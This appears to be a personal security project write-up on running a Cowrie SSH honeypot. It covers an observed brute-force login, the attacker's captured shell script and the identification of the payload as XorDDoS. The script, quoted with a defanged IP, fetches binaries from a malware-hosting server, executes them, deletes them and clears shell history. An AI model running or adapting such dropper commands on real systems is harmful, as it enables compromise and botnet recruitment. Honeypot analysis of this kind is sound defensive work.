

### [Home](../../index.md) | [Projects](../index.md)

# Cowrie & The Infrastructure Used

Cowrie is a honeypot designed to log brute-force attacks and attacker shell interactions. It supports ingesting logs into various log aggregation services. Since I have extensive experience with SQL, I chose to store its logs in a MySQL database.

### Infrastructure:

- Azure Virtual Machine
 - Linux (Ubuntu Server 24.04)
  - Services:
   - Cowrie (Honeypot)
   - MySQL (Log Storage)
   
## Running Cowrie
 
 I ran Cowrie for just half a day, and even in that short time, I observed some very interesting and suspicious behavior. Almost immediately, I started seeing clear signs of brute-force attacks.
 

 
From this image, we can see an attack originating from **218.92.0.186**. Other random IPs also appear from time to time, which we will discuss later.

To see the full extent of this brute-force attack, you can download the .csv file [here](project_files/auth_ip.csv).

We can see that the brute-force attack started at _12:40:02_ from IP **218.92.0.186**. The attacker successfully gained access to the system at _15:08:35_, meaning it took them a little over two hours to guess the correct password—**root**.


It appears that the attacker used **218.92.0.186** to carry out the brute-force attack and, once successful, handed access over to **218.92.0.131**, likely to handle malware delivery.

#### Here is a report from _VirusTotal_ on both IPs:

*	[218.92.0.186](https://www.virustotal.com/gui/ip-address/218.92.0.186)
*	[218.92.0.131](https://www.virustotal.com/gui/ip-address/218.92.0.131)

Now that the attacker is inside our Honeypot we can track every command they run.


From this image we can clearly see the attacker ran a script and downloaded something from another IP using _wget_ and _curl_, lets break this command down. 

```
#!/bin/sh
PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; # Ensures standard system paths are included in the script’s environment. 
wget hxxp[://]43[.]249[.]172[.]195:888/112;  # Downloads the file "112" using wget.
curl -O hxxp[://]43[.]249[.]172[.]195:888/112;  # Downloads the same file using curl, ensuring it keeps the original filename.
chmod +x 112;  # Makes "112" executable.
./112;  # Executes "112".
wget hxxp[://]43[.]249[.]172[.]195:888/112s;  # Downloads another file named "112s" from the same server.
curl -O hxxp[://]43[.]249[.]172[.]195:888/112s;  # Downloads "112s" while preserving its name.
chmod +x 112s;  # Makes "112s" executable.
./112s;  # Executes "112s".
rm -rf 112.sh;  # Deletes "112.sh".
rm -rf 112;  # Deletes "112" after execution.
rm -rf 112s;  # Deletes "112s" after execution.
history -c  # Clears the shell history to erase evidence of the commands.

```

**Note:** I have defanged the IP of the malware-hosting server for safety.
It appears that the attacker runs both wget and curl, likely to ensure the download succeeds in case one of the utilities is unavailable on the system.


We can see the full report on the Malware-Hosting Server [here](https://www.virustotal.com/gui/ip-address/43.249.172.195).

## The Malware

We can see that the attacker downloaded something—but what?
Luckily for us, Cowrie has excellent logging and provides a SHA-256 hash of the downloaded file.


**SHA-256 Hash:** ea40ecec0b30982fbb1662e67f97f0e9d6f43d2d587f2f588525fae683abea73

Now that we have the hash, we can submit it to VirusTotal to analyze it and determine what kind of malware we’re dealing with.



See the full report from _VirusTotal_ [here](https://www.virustotal.com/gui/file/ea40ecec0b30982fbb1662e67f97f0e9d6f43d2d587f2f588525fae683abea73)

## XorDDoS: The Malware Behind the Attack

From this report, we can see that this file is identified as a Trojan linked to XorDDos, a well known Linux malware strain used to launch DDoS attacks.

#### What is XorDDoS:

*	XorDDoS is a Linux-based malware that has been active since at least 2014.
*	It gets its name from its use of XOR-based encryption to obfuscate communication between infected machines and the command-and-control (C2) servers.
*	XorDDoS primarily targets Linux servers and IoT devices, turning them into botnets to launch massive DDoS attacks against websites and infrastructure.
*	Once inside, it downloads additional payloads, executes them, and then cleans up traces by deleting logs—exactly what we saw in our attack!

#### XorDDos Capabilities:

*	**Launching DDoS Attacks** – Uses infected machines to generate high-volume traffic aimed at bringing down targets.
*	**Persistence & Evasion** – It modifies system settings to survive reboots and evade detection.
*	**Backdoor Functionality** – Allows remote attackers to execute arbitrary commands on the compromised system.
*	**Obfuscation** – Uses XOR-based encryption to disguise network traffic.

#### What This Means for Our Honeypot:

*	The attacker brute-forced their way into our honeypot.
*	They quickly downloaded a XorDDoS variant and executed it.
* 	Their goal was likely to recruit our system into a botnet to launch DDoS attacks against other targets.
*	They also attempted to cover their tracks by deleting logs and clearing history.

#### Key Takeaways

*	Cowrie provided valuable insights into how attackers deliver and execute malware.
*	XorDDoS remains an active Linux threat, and honeypots like this help expose its tactics.

## Conclusion

This experiment with Cowrie provided a firsthand look at real-world SSH brute-force attacks and malware delivery techniques. By capturing and analyzing attacker activity, we uncovered how XorDDoS spreads and operates. This highlights the importance of strong authentication, monitoring logs, and proactive security measures to defend against such threats.

### Docs & Other Files
*	[Cowrie Docs](https://docs.cowrie.org/en/latest/)
*	[Cowrie GitHub](https://github.com/cowrie/cowrie)


### Contact
Sean McGovern

La Grange, North Carolina 

[Linkedin](https://www.linkedin.com/in/sean-mcgovern-310457272/) 


